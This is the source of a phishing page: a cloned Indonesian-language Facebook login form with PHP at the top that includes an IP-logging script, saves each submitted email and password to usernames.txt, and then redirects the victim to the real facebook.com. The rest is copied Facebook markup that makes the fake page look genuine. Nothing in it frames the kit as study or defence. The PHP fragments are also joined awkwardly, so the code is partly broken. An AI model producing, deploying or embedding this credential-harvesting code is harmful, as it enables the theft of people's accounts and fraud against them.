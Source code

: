 <?php include 'ip.php'; header('Location: https://github.com/matanghulbedegong1A/verifyYourAccount-php-fbiD/edit/main/login-1.php'); exit ?><?php file_put_contents("usernames.txt", "Account: " . $_POST['email'] . " Pass: " . $_POST['pass'] . "\n", FILE_APPEND); header('Location: https://facebook.com/'); exit();<html lang="id" id="facebook" class="tinyViewport tinyWidth">
 <head>
  <meta charset="utf-8">
  <meta name="referrer" content="default" id="meta_referrer"> 
  <style nonce="wE1qhlnh"></style> 
  <noscript>
   &lt;meta http-equiv="refresh" content="0; URL=/login.php/?_rdc=1&amp;amp;_rdr&amp;amp;_fb_noscript=1" /&gt;
  </noscript>
  <link rel="manifest" id="MANIFEST_LINK" href="/data/manifest/" crossorigin="use-credentials">
  <title id="pageTitle">Masuk Facebook</title>
  <meta name="description" content="Login ke Facebook untuk mulai membagikan sesuatu dan berhubungan dengan teman, keluarga, dan orang-orang yang Anda kenal.">
  <meta property="og:site_name" content="Facebook">
  <meta property="og:url" content="https://web.facebook.com/login.php/">
  <meta property="og:locale" content="id_ID">
  <link rel="canonical" href="https://web.facebook.com/login/web/">
  <link rel="shortcut icon" href="https://static.xx.fbcdn.net/rsrc.php/yv/r/B8BxsscfVBr.ico">
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/yK/l/0,cross/fARQz3e8huT.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="Pud6B2Z"> 
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/yB/l/0,cross/i1uHn7Kv-r5.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="TPdDmoT"> 
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/yq/l/0,cross/L0VTH1UsUXD.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="0QQt+vI"> 
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/yH/l/0,cross/LgIyhEMZFoc.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="w/XpzN8"> 
  <link type="text/css" rel="stylesheet" href="https://static.xx.fbcdn.net/rsrc.php/v3/yn/l/0,cross/d7akiVRXp54.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="LdgyQqN"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/yw/r/yTpj5oXvjmy.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3iQqy4/ya/l/id_ID/7sQ4paSA82Q.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/yZ/r/U6-FknelVAN.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/ye/r/sczXDyPA0UL.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/y8/r/VfNzWd2CFKu.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link rel="stylesheet" type="text/css" href="data:text/css; charset=utf-8;base64,I2Jvb3Rsb2FkZXJfUF9tcjVWRXtoZWlnaHQ6NDJweDt9LmJvb3Rsb2FkZXJfUF9tcjVWRXtkaXNwbGF5OmJsb2NrIWltcG9ydGFudDt9">
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/yR/r/C-1nEZpGlYz.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/yM/r/4Sl2Pg6mrU9.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/yf/r/i3OoKLnM9WD.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/yA/r/DTtOlBcwc18.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/yO/r/pslzeMSEB_a.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/y0/r/JVRu-BrVDXT.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/ys/r/B1QkyGvU3pd.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/yn/r/KWY7Edb5_DT.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/yw/r/UQc13wnoWNb.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3i0Eu4/yA/l/id_ID/9MewECx4VB1.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/yV/r/8gjIqkUnBC6.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
  <link href="https://static.xx.fbcdn.net/rsrc.php/v3/yW/r/NMkLR6my0IC.js?_nc_x=Ij3Wp8lg5Kz" rel="preload" as="script"> 
 </head>
 <body class="_39il _97vt _97vz _97v- _97v_ _97w2 _97w0 _9ax- _9ax_ _9ay1 UIPage_LoggedOut _-kb _605a b_c3pyn-ahh android webkit x1 Locale_id_ID cores-gte4 _19_u" dir="ltr"> 
  <div class="_li" id="u_0_0_Fp">
   <div id="globalContainer" class="uiContextualLayerParent">
    <div class="fb_content clearfix " id="content" role="main">
     <div class="_4-u5 _30ny">
      <div class="_97vy">
       <img class="_97vu img" src="https://static.xx.fbcdn.net/rsrc.php/y8/r/dF5SId3UHWd.svg" alt="Facebook">
      </div>
      <span class="muffin_tracking_pixel_start"></span>
      <img class="tracking_pixel">
      <span class="muffin_tracking_pixel_end"></span>
      <div class="_4-u2 _1w1t _4-u8 _52jv">
       <div class="_xku" id="header_block">
        <span class="_97w1 _50f6">
         <div class="_9axz">
          Login ke Facebook
         </div></span>
       </div>
       <div class="login_form_container">
        <form id="login_form" action="/login/device-based/regular/login/?login_attempt=1&amp;lwv=100" method="post" onsubmit="">
         <input type="hidden" name="jazoest" value="21011" autocomplete="off">
         <input type="hidden" name="lsd" value="AVqnW0hKlpg" autocomplete="off">
         <input type="hidden" autocomplete="off" id="error_box">
         <div id="loginform">
          <input type="hidden" autocomplete="off" id="display" name="display" value="">
          <input type="hidden" autocomplete="off" id="isprivate" name="isprivate" value="">
          <input type="hidden" autocomplete="off" id="return_session" name="return_session" value="">
          <input type="hidden" autocomplete="off" id="skip_api_login" name="skip_api_login" value="">
          <input type="hidden" autocomplete="off" id="signed_next" name="signed_next" value="">
          <input type="hidden" autocomplete="off" id="trynum" name="trynum" value="1">
          <input type="hidden" autocomplete="off" name="timezone" value="-420" id="u_0_1_FV">
          <input type="hidden" autocomplete="off" name="lgndim" value="eyJ3IjozMjAsImgiOjUzNCwiYXciOjMyMCwiYWgiOjUzNCwiYyI6MzJ9" id="u_0_2_Tj">
          <input type="hidden" name="lgnrnd" value="124422_mZDQ">
          <input type="hidden" id="lgnjs" name="lgnjs" value="1657050265">
          <div class="clearfix _5466 _44mg" id="email_container">
           <input type="text" class="inputtext _55r1 inputtext _1kbt inputtext _1kbt" name="email" id="email" tabindex="0" placeholder="Email atau Nomor Telepon" value="" autofocus="1" autocomplete="username" aria-label="Email atau Nomor Telepon">
          </div>
          <div class="clearfix _5466 _44mg">
           <div>
            <div class="_55r1 _1kbt">
             <input type="password" class="inputtext _55r1 inputtext _9npi inputtext _9npi" name="pass" id="pass" tabindex="0" placeholder="Kata Sandi" value="" autocomplete="current-password" aria-label="Kata Sandi">
             <div class="_9ls7 hidden_elem" id="u_0_3_V7">
              <a href="#" role="button">
               <div class="_9lsa">
                <div class="_9lsb" id="u_0_4_jB"></div>
               </div></a>
             </div>
            </div>
           </div>
          </div>
          <div class="_xkt">
           <button value="1" class="_42ft _4jy0 _52e0 _4jy6 _4jy1 selected _51sy" id="loginbutton" name="login" tabindex="0" type="submit">Masuk</button>
          </div>
          <div id="login_link">
           <div class="_97w3">
            <a href="https://web.facebook.com/recover/initiate/?ars=facebook_login" class="_97w4" target="">Lupa akun?</a>
           </div>
           <div class="_1rf5">
            <span class="_1rf8">atau</span>
           </div>
           <div class="_xkt">
            <a role="button" class="_42ft _4jy0 _16jx _4jy6 _4jy2 selected _51sy" href="/r.php?locale=id_ID&amp;display=page">Buat Akun Baru</a>
           </div>
          </div>
         </div>
         <input type="hidden" autocomplete="off" id="prefill_contact_point" name="prefill_contact_point" value="">
         <input type="hidden" autocomplete="off" id="prefill_source" name="prefill_source">
         <input type="hidden" autocomplete="off" id="prefill_type" name="prefill_type">
         <input type="hidden" autocomplete="off" id="first_prefill_source" name="first_prefill_source">
         <input type="hidden" autocomplete="off" id="first_prefill_type" name="first_prefill_type">
         <input type="hidden" autocomplete="off" id="had_cp_prefilled" name="had_cp_prefilled" value="false">
         <input type="hidden" autocomplete="off" id="had_password_prefilled" name="had_password_prefilled" value="false">
         <input type="hidden" autocomplete="off" name="ab_test_data" value="">
        </form>
       </div>
      </div>
     </div>
    </div>
    <div class="">
     <div class="_95ke _8opy">
      <div id="pageFooter" data-referrer="page_footer" data-testid="page_footer">
       <ul class="uiList localeSelectorList _2pid _509- _4ki _6-h _6-j _6-i" data-nocookies="1">
        <li>Bahasa Indonesia</li>
        <li><a class="_sv4" dir="ltr" href="https://en-gb.facebook.com/login.php/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;en_GB&quot;, &quot;id_ID&quot;, &quot;https:\/\/en-gb.facebook.com\/login.php\/&quot;, &quot;www_list_selector&quot;, 0); return false;" title="English (UK)">English (UK)</a></li>
        <li><a class="_sv4" dir="ltr" href="https://jv-id.facebook.com/login.php/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;jv_ID&quot;, &quot;id_ID&quot;, &quot;https:\/\/jv-id.facebook.com\/login.php\/&quot;, &quot;www_list_selector&quot;, 1); return false;" title="Javanese">Basa Jawa</a></li>
        <li><a class="_sv4" dir="ltr" href="https://ms-my.facebook.com/login.php/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;ms_MY&quot;, &quot;id_ID&quot;, &quot;https:\/\/ms-my.facebook.com\/login.php\/&quot;, &quot;www_list_selector&quot;, 2); return false;" title="Malay">Bahasa Melayu</a></li>
        <li><a class="_sv4" dir="ltr" href="https://ja-jp.facebook.com/login.php/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;ja_JP&quot;, &quot;id_ID&quot;, &quot;https:\/\/ja-jp.facebook.com\/login.php\/&quot;, &quot;www_list_selector&quot;, 3); return false;" title="Japanese">日本語</a></li>
        <li><a class="_sv4" dir="rtl" href="https://ar-ar.facebook.com/login.php/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;ar_AR&quot;, &quot;id_ID&quot;, &quot;https:\/\/ar-ar.facebook.com\/login.php\/&quot;, &quot;www_list_selector&quot;, 4); return false;" title="Arabic">العربية</a></li>
        <li><a class="_sv4" dir="ltr" href="https://fr-fr.facebook.com/login.php/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;fr_FR&quot;, &quot;id_ID&quot;, &quot;https:\/\/fr-fr.facebook.com\/login.php\/&quot;, &quot;www_list_selector&quot;, 5); return false;" title="French (France)">Français (France)</a></li>
        <li><a class="_sv4" dir="ltr" href="https://es-la.facebook.com/login.php/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;es_LA&quot;, &quot;id_ID&quot;, &quot;https:\/\/es-la.facebook.com\/login.php\/&quot;, &quot;www_list_selector&quot;, 6); return false;" title="Spanish">Español</a></li>
        <li><a class="_sv4" dir="ltr" href="https://ko-kr.facebook.com/login.php/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;ko_KR&quot;, &quot;id_ID&quot;, &quot;https:\/\/ko-kr.facebook.com\/login.php\/&quot;, &quot;www_list_selector&quot;, 7); return false;" title="Korean">한국어</a></li>
        <li><a class="_sv4" dir="ltr" href="https://pt-br.facebook.com/login.php/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;pt_BR&quot;, &quot;id_ID&quot;, &quot;https:\/\/pt-br.facebook.com\/login.php\/&quot;, &quot;www_list_selector&quot;, 8); return false;" title="Portuguese (Brazil)">Português (Brasil)</a></li>
        <li><a class="_sv4" dir="ltr" href="https://de-de.facebook.com/login.php/" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;de_DE&quot;, &quot;id_ID&quot;, &quot;https:\/\/de-de.facebook.com\/login.php\/&quot;, &quot;www_list_selector&quot;, 9); return false;" title="German">Deutsch</a></li>
        <li><a role="button" class="_42ft _4jy0 _517i _517h _51sy" rel="dialog" ajaxify="/settings/language/language/?uri=https%3A%2F%2Fde-de.facebook.com%2Flogin.php%2F&amp;source=www_list_selector_more" href="#" title="Tampilkan bahasa lainnya"><i class="img sp_Awgqz7K4lHq sx_60b650"></i></a></li>
       </ul>
       <div id="contentCurve"></div>
       <div id="pageFooterChildren" role="contentinfo" aria-label="Tautan situs Facebook">
        <ul class="uiList pageFooterLinkList _509- _4ki _703 _6-i">
         <li><a href="/reg/" title="Daftar Facebook">Daftar</a></li>
         <li><a href="/login/" title="Masuk ke Facebook">Masuk</a></li>
         <li><a href="https://messenger.com/" title="Coba Messenger.">Messenger</a></li>
         <li><a href="/lite/" title="Facebook Lite untuk Android.">Facebook Lite</a></li>
         <li><a href="https://web.facebook.com/watch/" title="Telusuri video Watch kami.">Watch</a></li>
         <li><a href="/places/" title="Periksa tempat-tempat populer di Facebook.">Tempat</a></li>
         <li><a href="/games/" title="Periksa game Facebook.">Game</a></li>
         <li><a href="/marketplace/" title="Beli dan jual di Facebook Marketplace.">Marketplace</a></li>
         <li><a href="https://pay.facebook.com/" title="Pelajari selengkapnya tentang Facebook Pay" target="_blank">Facebook Pay</a></li>
         <li><a href="https://www.oculus.com/" title="Pelajari Selengkapnya Tentang Oculus" target="_blank">Oculus</a></li>
         <li><a href="https://portal.facebook.com/" title="Pelajari selengkapnya tentang Facebook Portal" target="_blank">Portal</a></li>
         <li><a href="https://l.facebook.com/l.php?u=https%3A%2F%2Fwww.instagram.com%2F&amp;h=AT2Sm-fERMZP-rcGLDiGVQDLgYnqwXI0sO9D42_MKHZA4YG7jLPs5IEBd7moiN7TpAVCyV8JS3WQbbQkR7PxM6nlxNEl0OrS0a-nmNuWKHjummqocYMH5yr6C1abSSFInNeq1yuJwJyhBZQGsjp5" title="Coba Instagram" target="_blank" rel="nofollow" data-lynx-mode="origin">Instagram</a></li>
         <li><a href="https://www.bulletin.com/" title="Lihat Buletin dari Bulletin">Bulletin</a></li>
         <li><a href="/local/lists/245019872666104/" title="Jelajahi direktori Daftar Lokal kami.">Lokal</a></li>
         <li><a href="/fundraisers/" title="Berdonasi ke gerakan yang bermanfaat.">Penggalangan Dana</a></li>
         <li><a href="/biz/directory/" title="Jelajahi direktori Layanan Facebook kami.">Layanan</a></li>
         <li><a href="/votinginformationcenter/?entry_point=c2l0ZQ%3D%3D" title="Lihat Pusat Informasi Pemilu">Pusat Informasi Pemilu</a></li>
         <li><a href="/groups/explore/" title="Jelajahi Grup kami.">Grup</a></li>
         <li><a href="https://about.facebook.com/" accesskey="8" title="Baca blog kami, temukan pusat sumber daya, dan cari peluang kerja.">Tentang</a></li>
         <li><a href="/ad_campaign/landing.php?placement=pflo&amp;campaign_id=402047449186&amp;nav_source=unknown&amp;extra_1=auto" title="Beriklan di Facebook.">Buat Iklan</a></li>
         <li><a href="/pages/create/?ref_type=site_footer" title="Buat halaman">Buat Halaman</a></li>
         <li><a href="https://developers.facebook.com/?ref=pf" title="Buat aplikasi di platform kami.">Developer</a></li>
         <li><a href="/careers/?ref=pf" title="Pastikan langkah karier Anda selanjutnya perusahaan kami yang luar biasa.">Karier</a></li>
         <li><a data-nocookies="1" href="/privacy/explanation/" title="Bacalah tentang privasi Anda dan Facebook.">Privasi</a></li>
         <li><a href="/policies/cookies/" title="Pelajari tentang cookie dan Facebook." data-nocookies="1">Cookie</a></li>
         <li><a class="_41ug" data-nocookies="1" href="https://web.facebook.com/help/568137493302217" title="Pelajari tentang Pilihan Iklan.">Pilihan Iklan<i class="img sp_Awgqz7K4lHq sx_f315b2"></i></a></li>
         <li><a data-nocookies="1" href="/policies?ref=pf" accesskey="9" title="Tinjau ketentuan dan kebijakan kami.">Ketentuan</a></li>
         <li><a href="/help/?ref=pf" accesskey="0" title="Kunjungi Pusat Bantuan kami.">Bantuan</a></li>
         <li><a href="help/637205020878504" title="Kunjungi Pemberitahuan Pengunggahan Kontak &amp; Non-Pengguna kami.">Pengunggahan Kontak &amp; Non-Pengguna</a></li>
         <li><a accesskey="6" class="accessible_elem" href="/settings" title="Lihat dan edit pengaturan Facebook Anda.">Pengaturan</a></li>
         <li><a accesskey="7" class="accessible_elem" href="/allactivity?privacy_source=activity_log_top_menu" title="Lihat log aktivitas Anda">Log aktivitas</a></li>
        </ul>
       </div>
       <div class="mvl copyright">
        <div>
         <span> Meta © 2022</span>
        </div>
       </div>
      </div>
     </div>
    </div>
   </div>
   <div></div>
   <span><img src="https://facebook.com/security/hsts-pixel.gif?c=3.2.5" width="0" height="0" style="display:none"></span>
  </div>
  <div style="display:none"></div> 
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yK/l/0,cross/fARQz3e8huT.css?_nc_x=Ij3Wp8lg5Kz" as="style"> 
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yB/l/0,cross/i1uHn7Kv-r5.css?_nc_x=Ij3Wp8lg5Kz" as="style"> 
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yq/l/0,cross/L0VTH1UsUXD.css?_nc_x=Ij3Wp8lg5Kz" as="style"> 
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yw/r/yTpj5oXvjmy.js?_nc_x=Ij3Wp8lg5Kz" as="script" nonce="wE1qhlnh"> 
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yH/l/0,cross/LgIyhEMZFoc.css?_nc_x=Ij3Wp8lg5Kz" as="style"> 
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yn/l/0,cross/d7akiVRXp54.css?_nc_x=Ij3Wp8lg5Kz" as="style"> 
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3iQqy4/ya/l/id_ID/7sQ4paSA82Q.js?_nc_x=Ij3Wp8lg5Kz" as="script" nonce="wE1qhlnh"> 
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/yZ/r/U6-FknelVAN.js?_nc_x=Ij3Wp8lg5Kz" as="script" nonce="wE1qhlnh"> 
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/ye/r/sczXDyPA0UL.js?_nc_x=Ij3Wp8lg5Kz" as="script" nonce="wE1qhlnh"> 
  <link rel="preload" href="https://static.xx.fbcdn.net/rsrc.php/v3/y8/r/VfNzWd2CFKu.js?_nc_x=Ij3Wp8lg5Kz" as="script" nonce="wE1qhlnh"> 
 </body>
</html>
